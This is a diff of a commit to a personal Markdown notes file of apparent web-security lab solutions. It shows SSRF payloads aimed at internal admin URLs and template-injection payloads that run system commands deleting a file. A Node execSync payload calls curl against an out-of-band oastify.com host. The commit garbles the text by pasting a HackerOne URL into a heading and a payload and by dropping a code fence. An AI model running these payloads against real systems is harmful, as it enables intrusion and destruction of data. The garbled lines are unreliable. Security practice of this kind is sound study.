

Before and after one commit to B310M0R/notes, a Markdown page: useful.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/useful.md
+++ b/useful.md
@@ -372,7 +372,7 @@ stockApi=http://127.1/AdMiN/
 ```
 stockApi=/product/nextProduct?currentProductId=2%26path%3dhttp://192.168.0.12:8080/admin
 ```
-4. Blind SSRF with out-of-band detection
+4. Blind SSRF with out-of-bhttps://hackerone.com/opportunities/alland detection
 ```
 Referer: http://burpcollaborator
 ```
@@ -583,8 +583,7 @@ Arises at View Details with reflected phrase `Unfortunately this product is out
 1. Basic server-side template injection
 Ruby
 ```
-<%= system("rm+morale.txt") %>
-```
+<%= system("rm+morale.txt")https://hackerone.com/opportunities/all
 2. Basic server-side template injection (code context)
 ```
 blog-post-author-display=user.first_name}}{%+import+os+%}{{os.system('rm+morale.txt')}}
@@ -1073,3 +1072,6 @@ Billing and Delivery Address:
   "--eval=require('child_process').execSync('curl https://kmazepmj6dq3jzpk2e4ah7fzuq0ho9cy.oastify.com')"
 ]}
 ```
+## MORE MORE AND MORE
+[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
+[HackTricks](https://book.hacktricks.xyz/)
````
